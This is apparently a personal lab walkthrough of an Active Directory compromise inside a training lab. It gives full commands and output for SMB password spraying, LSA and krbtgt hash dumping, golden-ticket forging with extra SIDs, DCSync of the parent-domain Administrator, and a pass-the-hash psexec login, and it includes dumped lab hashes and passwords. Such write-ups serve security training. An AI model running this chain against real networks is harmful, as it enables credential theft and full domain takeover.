 #### Initial Access of the newly accessible network
``#nmap -v -sn 192.168.98.0/24 2>/dev/null 
After deep search: 
![[Pasted image 20250825194641.png]]
![[Pasted image 20250825194658.png]]
So now we know what we're targeting: with this we narrowed down the list to **.2 and .120 hosts** to spray in a next stage -> [targets.txt]

Remember this credential we found earlier in Firefox files:
![[Pasted image 20250823204444.png]]
Creds: 
	- Username: john
	- Password: User1@#$%6
--> Adding **.30** host to the list -> [targets.txt]

Since from the previous nmap scan we found windows server hosts online with TCP/445 (SMB) open. 
Windows + SMB open + creds = Password Spraying ==> CME

Lesson Learned: 
So, the combination of:
	- Windows targets
	- SMB ports open
	- Fresh creds in hand
⇒ makes **SMB** the first logical protocol to try.

Let’s spray the discovered live hosts in the network using crackmapexec CME toolkit: that will tell us if the creds work, without crashing services.
``# vim targets.txt
![[Pasted image 20250825195112.png]]

``#crackmapexec --verbose smb targets.txt -u john -p 'User1@#$%6'
![[Pasted image 20250823205056.png]]

Perfect! User **"John"** is **Local Administrator** on host **MGMT** (192.168.98.30): This enables us to query the Security Account Manager (SAM) and LSA secrets remotely = extract creds that belong to other users who logged into that machine.

So, Who else has touched this box ? 

Now, let’s dump the LSA (Authentication Handler & Secrets Manager) process using crackmapexec toolkit, it utilizes impacket's module secretsdump. CME’s --lsa is just a wrapper for Impacket’s secretsdump.py (We don’t need to drop Mimikatz, Nanodump, or an agent. CME uses legit Windows APIs over SMB/RPC to query secrets)

``#crackmapexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa
![[Pasted image 20250823210132.png]]

Here are the results we're presented with:  
*) Valid Data
	- Username: john
	- Password: User1@#$%6
Domains: 
	- child.warfare.corp
	- warfare.corp
Host: 
	- 192.168.98.30 (Hostname: MGMT)

*) Dumped Cached Logon Hashes
CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61
CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6

*) Machine Account Hashes (CHILD\MGMT$)
aes256-cts-hmac-sha1-96: 344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
aes128-cts-hmac-sha1-96: aa5b3d84614911fe611eafbda613baaf
des-cbc-md5:             6402e0c20b89d386
NTLM:                    aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563


*) DPAPI Secrets (Data Protection API keys)
dpapi_machinekey: 0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:    0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5

*) NL$KM Secret (used to encrypt cached credentials)
NL$KM:
df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382
d896c9569b67dcdac871dd77b96916c8c1187d40c118474c481ddf62a7c04682


**AND we got the clear-text credentials of the user “corpmngr” **
![[Pasted image 20250823211111.png]]
Creds: (MGMT Machine)
	- Username: corpmngr
	- Password: User4&*&*

Again, let’s spray the credentials in the network using the new creds (easiest approach in this case) 
``#crackmapexec --verbose smb targets.txt -u corpmngr -p 'User4&*&*'

![[Pasted image 20250824093125.png]]

Running this gives us credentials of other users who have authenticated on that host. In this lab, it returned:
--> Bingo! We got working creds as local **Administrator** in the **CDC** machine at **192.168.98.120**
Creds: (CDC Machine)
	- Username: corpmngr
	- Password: User4&*&*

Since we know machine name & the target domains, let’s update our /etc/hosts file.

``#vim /etc/hosts
```
192.168.98.2 warfare.corp dc01.warfare.corp  
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

![[Pasted image 20250824093042.png]]

Since we are local administrator in the Child DC (.120), let's extract the hash of **KRB TGT** (Ticket Granting Ticket) account using impacket secretsdump script. We will forge a **KRB TGS** (Golden Ticket) to compromise the Parent DC (.2)

``#impacket-secretsdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

![[Pasted image 20250824093750.png]]

```
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
...
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```

We will now perform SID Extraction using lookupsid python script.

```
Child Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp  

Parent Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp  
```

Child SID Found:
![[Pasted image 20250824094245.png]]

Parent SID Found: 
![[Pasted image 20250824094429.png]]

For now, here's what we have: 
```
- krbtgt aes256 Hash  
ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2  
- Parent SID : S-1-5-21-3375883379-808943238-3239386119  
- Child SID : S-1-5-21-3754860944-83624914-1883974761  
```

We will forge golden ticket using ticketer as follows and then set the ccache file to the environment variable :  
``# impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'
``# export KRB5CCNAME=corpmngr.ccache 

![[Pasted image 20250824095041.png]]

Request Service Ticket using the ccache file & export: 
![[Pasted image 20250824095305.png]]

Parent Domain Controller Takeover: 
``# impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
![[Pasted image 20250824095532.png]]

```
[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[+] Domain retrieved from CCache: CHILD.WARFARE.CORP
[+] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01.warfare.corp@WARFARE.CORP to CIFS/DC01.WARFARE.CORP@CHILD.WARFARE.CORP and hoping for the best
[+] Username retrieved from CCache: corpmngr
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for warfare\Administrator 
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:b8844cc6622c448c9b9f657e7a67ad7f9f26fa2c1c7520b7f1ad28389c6fdb91
Administrator:aes128-cts-hmac-sha1-96:cea9408d32669cad4f2938252928b38d
Administrator:des-cbc-md5:614ce65740c8b0a8
[*] Cleaning up... 
```

Let’s access with Administrator credentials the **Parent DC** (dc01)
``# impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283

![[Pasted image 20250824095742.png]]
